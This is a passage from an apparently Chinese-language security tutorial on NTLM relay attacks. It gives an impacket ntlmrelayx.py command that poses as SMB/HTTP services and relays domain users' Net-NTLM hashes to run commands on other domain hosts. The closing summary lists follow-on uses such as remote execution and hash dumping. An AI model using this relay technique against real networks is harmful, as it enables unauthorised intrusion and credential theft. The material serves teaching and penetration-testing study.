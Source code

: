 #### impacket

我们可以借助impacket的ntlmrelayx.py模块来实现NTLM中继攻击，具体步骤如下：  
Step 1：在攻击机上执行如下命令监听80和445端口，伪造http和smb服务

```plain
python3 ./ntlmrelayx.py -t smb://192.168.188.4 -c whoami -smb2support
```

[![](assets/1701222524-4a89a8f797f861fbf649474a823344c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145123-8b20f36e-8dba-1.png)  
Step 2：诱导普通域用户或者域管理员用户访问攻击机上搭建的HTTP或SMB服务  
[![](assets/1701222524-ed7cc34e3f9bc94c09c942c6ef63c5a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145134-91c9e072-8dba-1.png)  
Step 3：在攻击主机上可以Relay域用户的Net-NTLM Hash，从而在域内其他主机上执行指定的命令  
[![](assets/1701222524-050d02f9ebdcebc0226b926dc68e397e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145148-9a34effe-8dba-1.png)

## 文末小结

Net-NTLM Hash攻击是一个拿域内主机的方法，在横向移动中利用还是挺不错的，可以直接控制域内主机，包括但不限于在远程服务器上执行命令、上传exe到远程主机上执行、dump服务器的用户hash等
